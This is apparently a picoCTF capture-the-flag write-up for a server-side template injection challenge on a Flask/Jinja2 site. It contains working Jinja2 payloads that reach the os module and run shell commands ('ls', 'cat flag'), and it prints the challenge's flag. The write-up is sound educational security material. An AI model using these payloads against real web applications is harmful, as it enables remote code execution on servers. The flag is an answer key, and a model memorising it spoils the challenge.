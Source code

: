 ```yaml
---
layout: post
title: "SSTI1"
date: 2025-08-05
categories: [PicoCTF]
tags: [picoctf, webexploitation,Easy]
---
```



# 🧠 Challenge Name: **SSTI**

## 📝 Description
> I made a cool website where you can announce whatever you want! Try it out!  
> I heard templating is a cool and modular way to build web apps!

---

## 🤔 What is SSTI?

**SSTI (Server-Side Template Injection)** occurs when user input is insecurely embedded into a server-side template.  
This allows an attacker to **inject template code** and potentially execute arbitrary code on the server.

---

## 🧭 Step-by-Step Approach

### 1. **Open the Website**
Go to the challenge URL and observe how it behaves.

### 2. **Test User Input**
Type something in the search bar. You'll see that it **echoes back** exactly what you typed.  
➡️ This is a sign of **SSTI (Server-Side Template Injection)**.

---

### 3. **Identify the Backend Technology**
Use this command in your terminal:

```bash
curl -i http://rescued-float.picoctf.net:53913/
```

**Sample Output:**
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.8.10
Date: Tue, 05 Aug 2025 15:04:50 GMT
Content-Type: text/html; charset=utf-8
```

➡️ This tells us the backend is likely using **Flask** with **Jinja2** (common in Python apps).

---

### 4. **Test for Template Injection**

Try injecting a basic expression:

```jinja2
{% raw %}{{7*7}}{% endraw %}
```

➡️ If the result is `49`, it confirms the input is evaluated by a **template engine** (like Jinja2), which means **SSTI exists**.

---

### 5. **Exploit SSTI to Read Server Files**

Try this in the search bar:

```jinja2
{% raw %}{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}{% endraw %}
```

This command lists files in the server directory. If you see a file like `flag`, continue to the next step.

---

### 6. **Read the Flag**

Now run this to get the flag:

```jinja2
{% raw %}{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}{% endraw %}
```

✅ This prints the contents of the `flag` file on the website.

---

## 🧠 Payload Explanation

```jinja2
{% raw %}{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}{% endraw %}
```

- `config`: a Flask object.
- `.__class__`: gets its class.
- `.__init__.__globals__`: accesses global variables (like imports).
- `['os']`: gets access to the `os` module.
- `.popen('cat flag').read()`: runs the `cat flag` command and reads the result.

This is **Remote Code Execution** through **SSTI** in a Python web app.

---

## 🚨 Real-World Impact

SSTI vulnerabilities are dangerous — if not mitigated, they allow attackers to **execute arbitrary code on the server**, potentially leading to full system compromise.

Always validate and sanitize user input in server-side template engines.

---

## 🏁 Result

**picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}**

---